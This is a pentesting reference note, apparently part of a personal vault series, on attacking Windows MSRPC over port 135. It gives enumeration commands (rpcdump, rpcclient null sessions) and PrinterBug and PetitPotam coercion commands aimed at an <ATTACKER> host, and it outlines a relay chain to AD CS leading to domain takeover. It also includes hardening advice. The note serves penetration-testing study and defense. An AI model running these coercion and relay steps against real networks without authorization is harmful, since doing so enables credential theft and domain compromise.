

# 26 - MSRPC (Port 135) Pentesting

## 1. Executive Summary

MSRPC (Microsoft RPC) is the Windows remote procedure call framework, fronted by the **Endpoint Mapper on TCP 135** (with high dynamic ports 49152+ for the actual interfaces, and pipes over SMB/445). Like rpcbind on Unix, port 135 is mainly a **directory** — it tells you which RPC interfaces (IFIDs) the host exposes. Those interfaces drive many AD attacks: user/share enumeration (SAMR/LSARPC), task scheduling (ATSVC), service control (SVCCTL → psexec-style RCE), and authentication **coercion** (MS-RPRN "PrinterBug", MS-EFSR "PetitPotam"). Enumerating MSRPC maps the host's attack surface.

## 2. Protocol Overview & Architecture

Each RPC service is identified by an **interface UUID (IFID)** and is reachable over one or more transports: ncacn_ip_tcp (135 + dynamic), ncacn_np (named pipes over SMB), ncacn_http. The Endpoint Mapper translates an IFID to its current dynamic port. Many high-value interfaces are reachable with just authenticated (sometimes null) sessions.

## 3. Enumeration & Footprinting

```bash
# Dump registered RPC interfaces (IFIDs)
impacket-rpcdump <IP>
impacket-rpcdump <IP> -p 135
rpcdump.py 'DOMAIN/user:pass@<IP>'

# Nmap endpoint mapper
nmap -p135 --script msrpc-enum <IP>

# Interactive enumeration over the SAMR/LSARPC pipes (null session)
rpcclient -U "" -N <IP>
rpcclient $> enumdomusers
rpcclient $> queryuser 0x457
rpcclient $> lsaenumsid
```

## 4. Exploitation Deep Dive

### 4.1 Domain Enumeration (rpcclient)
Over SAMR/LSARPC, enumerate users, groups, SIDs, and password policy — feeds spraying and SID→name lookups.

### 4.2 Authentication Coercion
Force a target (often a DC) to authenticate to an attacker host, then relay/crack:
```bash
# PrinterBug (MS-RPRN)
printerbug.py 'DOMAIN/user:pass@<DC>' <ATTACKER>
# PetitPotam (MS-EFSR)
PetitPotam.py <ATTACKER> <DC>
# Coerce → ntlmrelayx → AD CS (ESC8) = domain compromise
```

### 4.3 Remote Code Execution Paths
SVCCTL/ATSVC over MSRPC underpin `impacket-psexec`/`atexec`/`schtasks`-style execution once you have admin creds.

### 4.4 Notable CVE
- **CVE-2025-29969 (EventLog-in)** — TOCTOU in the MS-EVEN interface lets an authenticated low-priv user trigger a remote arbitrary file write.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Enumerated users/SIDs → targeted Kerberos attacks.
- Coercion + relay to AD CS or LDAP → domain takeover without cracking a single password.

## 7. Defense & Hardening
1. Restrict RPC/135 + dynamic ports at the firewall; segment management traffic.
2. Mitigate coercion: disable the Print Spooler on DCs, patch MS-EFSR, enforce LDAP/SMB signing + channel binding, harden AD CS (disable NTLM to CA, Extended Protection).
3. Patch MSRPC CVEs; restrict null sessions (`RestrictAnonymous`).

## 8. Chaining Opportunities
- Coercion → relay → **[[06 - SMB (Ports 139-445) Pentesting]]** / AD CS → DA.
- Enumerated users → **[[09 - Kerberos (Port 88) Pentesting]]**.

## 9. Related Notes
- [[24 - rpcbind (Port 111) Pentesting]]
- [[27 - NetBIOS (Ports 137-139) Pentesting]]
- [[06 - SMB (Ports 139-445) Pentesting]]

## 10. Tools
`impacket-rpcdump`, `rpcclient`, `nmap` msrpc-enum, `printerbug.py`, `PetitPotam.py`, `impacket-ntlmrelayx`.
